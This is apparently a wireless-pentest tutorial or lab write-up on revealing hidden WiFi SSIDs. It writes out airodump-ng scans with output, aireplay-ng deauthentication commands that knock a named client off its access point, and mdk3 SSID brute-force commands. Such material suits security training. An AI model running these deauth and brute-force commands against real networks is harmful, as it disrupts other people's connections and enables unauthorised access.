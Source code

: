 ___

Set wifi interface to monitor mode

```bash
sudo airmon-ng start wlan0
```

Can for networks

```bash
sudo airodump-ng -c 1 wlan0mon

CH  1 ][ Elapsed: 0 s ][ 2024-05-21 20:45 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 B2:C1:3D:3B:2B:A1  -47   0        9        0    0   1   54   WPA2 CCMP   PSK  <length: 12>                                
 D2:A3:32:13:29:D5  -28   0        9        0    0   1   54   WPA3 CCMP   SAE  <length:  8>                                
 A2:FF:31:2C:B1:C4  -28   0        9        0    0   1   54   WPA2 CCMP   PSK  <length:  4>                                

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 B2:C1:3D:3B:2B:A1  02:00:00:00:02:00  -29    0 -24      0        4   
```


we can see that there are three hidden SSIDs. The `<length: x>` notation indicates the length of the WiFi network name


#### **Detecting SSID name with Deauth**
we can deauth clients and capture the reconnection requests.

From the above `airodump-ng` scan, we observed that a client with the STATION ID `02:00:00:00:02:00` is connected to the BSSID `B2:C1:3D:3B:2B:A1`. Let's start the `airodump-ng` capture on channel `1` and use `aireplay-ng` to send deauthentication requests to the client.

We should start sniffing our network on `channel 1` with airodump-ng.
```bash
sudo airodump-ng -c 1 wlan0mon
```

In order to force the client to send a probe request, it needs to be disconnected. We can do this with aireplay-ng.

```
sudo aireplay-ng -0 10 -a B2:C1:3D:3B:2B:A1 -c 02:00:00:00:02:00 wlan0mon
```

After sending the deauthentication requests using `aireplay-ng`, we should see the name of the hidden SSID appear in `airodump-ng` once the client reconnects to the WiFi network. This process leverages the re-association reques

airodump output:
```bash
sudo airodump-ng -c 1 wlan0mon

CH  1 ][ Elapsed: 0 s ][ 2024-05-21 20:45 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 B2:C1:3D:3B:2B:A1  -47   0        9        0    0   1   54   WPA2 CCMP   PSK  jacklighters

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 B2:C1:3D:3B:2B:A1  02:00:00:00:02:00  -29    0 -24      0        4         jacklighters
```

#### Bruteforcing Hidden SSID

We can use a tool like mdk3 to carry out this attack. With mdk3, we can either provide a wordlist or specify the length of the SSID so the tool can automatically generate potential SSID names.

```bash
mdk3 <interface> <test mode> [test_ options]
```
The `p` test mode argument in mdk3 stands for Basic probing and ESSID Bruteforce mode.

|**Option**|**Description**|
|---|---|
|`-e`|Specify the SSID for probing.|
|`-f`|Read lines from a file for brute-forcing hidden SSIDs.|
|`-t`|Set the MAC address of the target AP.|
|`-s`|Set the speed (Default: unlimited, in Bruteforce mode: 300).|
|`-b`|Use full brute-force mode (recommended for short SSIDs only). This switch is used to show its help screen|
To bruteforce with all possible values, we can use `-b` as the `test_option` in mdk3. We can set the following options for it.

- upper case (u)
- digits (n)
- all printed (a)
- lower and upper case (c)
- lower and upper case plus numbers (m)

```bash
sudo mdk3 wlan0mon p -b u -c 1 -t A2:FF:31:2C:B1:C4
```

or use a wordlist

```bash
sudo mdk3 wlan0mon p -f /opt/wordlist.txt -t D2:A3:32:13:29:D5
```

